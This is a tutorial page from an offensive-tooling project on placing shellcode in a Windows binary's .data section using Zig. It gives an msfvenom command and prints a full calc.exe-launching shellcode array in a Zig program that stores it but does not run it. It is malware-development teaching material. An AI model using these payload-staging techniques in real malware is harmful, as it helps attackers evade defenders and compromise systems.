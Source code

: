 # .data Section

## TL;DR

[See the code example](https://github.com/CX330Blake/Black-Hat-Zig/tree/main/src/Payload-Placement/dot_data_section)

## What Is Payload?

To execute the malicious code, we must load the malicious stuff into the binary somehow. And this malicious stuff, is the so called "payload" or "shellcode".

We'll use the payload generated by MSFvenom for every examples in "Payload Placement". You can copy and paste the following command to generate the payload first. But since it's generated in C array format, I'll recommend you just copy and paste the corresponding payload in my code, which is already translated from C array to Zig array by AI.

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f c
```

## Sections

For those who visited this project, I'll assume you already know what is "section" and know the basics of the following common sections.

- .bss section
  - Uninitialized global variables
- .data section
  - Initialized global variables
- .rdata section
  - Read-only data (strings, vtable, etc)
- .text section
  - Code segment, stores machine codes
- .rsrc section
  - Resource section, only exists on Windows. It often stores graph, icon, etc

For more details: [Special Sections - MSDN](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#special-sections).

## Code Walkthrough

In this chapter, I will show you how to store out payload into .data section.

```zig title="main.zig"
const std = @import("std");
const print = std.debug.print;

// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c
// .data saved payload (var data goes to .data section in Zig)
var data_section_payload = [_]u8{
    0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
    0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
    0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
    0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
    0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
    0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
    0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
    0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
    0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
    0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
    0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
    0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
    0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
    0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
    0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
    0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
    0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
    0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
    0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
    0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
    0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
    0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00,
};

/// Helper function to wait for Enter key
/// Similar usage as `getchar()` in C
fn waitForEnter() void {
    var buffer: [256]u8 = undefined;
    _ = std.io.getStdIn().reader().readUntilDelimiterOrEof(buffer[0..], '\n') catch {};
}

pub fn main() !void {
    print("[i] Payload address: 0x{X} \n", .{@intFromPtr(&data_section_payload)});
    print("[i] Data size: {d} bytes\n", .{data_section_payload.len});
    print("[i] Payload stored in .data section (read-write)\n", .{});
    print("[#] Press <Enter> To Quit ...", .{});
    waitForEnter();
}
```

Actually, it's easy to put the payload in .data section, just declare a global var and that's it! Although it's simple, it's also easy for malware analyst and reverse engineer to notice that. And it hash high possibility to be detected for most of the AV/EDR.
